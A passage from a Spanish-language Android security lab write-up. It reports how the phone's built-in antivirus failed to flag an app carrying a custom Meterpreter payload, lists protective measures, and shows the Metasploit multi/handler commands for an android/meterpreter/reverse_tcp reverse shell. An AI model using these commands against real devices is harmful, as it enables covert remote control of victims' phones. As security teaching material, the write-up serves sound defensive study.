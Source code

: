**Resultados Detallados del Análisis:**
- ✅ "Pasó las pruebas de seguridad" - El escáner nativo no identificó patrones maliciosos
- ✅ "No se detectaron riesgos" - Análisis superficial de permisos y comportamiento
- ✅ "No se encontraron virus" - Base de datos de firmas no reconoció el payload
- ✅ "La aplicación es legítima" - Verificación de aplicación falsificada falló
- ✅ "No se encontraron otros riesgos" - Análisis heurístico insuficiente

**Características de la Aplicación Reportadas:**
- **Nombre**: MainActivity
- **Versión**: 1.0
- **Tamaño**: 10.0 KB
- **Estado**: Aprobada para instalación

**Limitaciones Evidentes del Antivirus Nativo:**
- No detecta payloads de Meterpreter personalizados
- Análisis basado principalmente en firmas conocidas
- Escasa capacidad de detección heurística
- No analiza comportamiento en tiempo de ejecución

### 🛡️ Medida de Protección #3:
- **Antivirus de terceros**: Instalar soluciones de seguridad reconocidas
- **Análisis heurístico**: Habilitar detección basada en comportamiento
- **Actualizaciones**: Mantener el sistema y aplicaciones de seguridad actualizadas
- **Google Play Protect**: Asegurarse de que está activado y funcionando

---

## 4. Establecimiento de la Conexión

Se configuró el **multi/handler** de Metasploit, un exploit de escucha múltiple que espera conexiones entrantes de payloads. Este handler actúa como servidor que recibe las conexiones reversas establecidas por el payload ejecutado en el dispositivo víctima.

### Configuración del Handler:
```bash
use multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST [IP_OCULTA]
set LPORT [PUERTO_OCULTO]
run
```

![Configuración Metasploit](images/Captura-5.png)

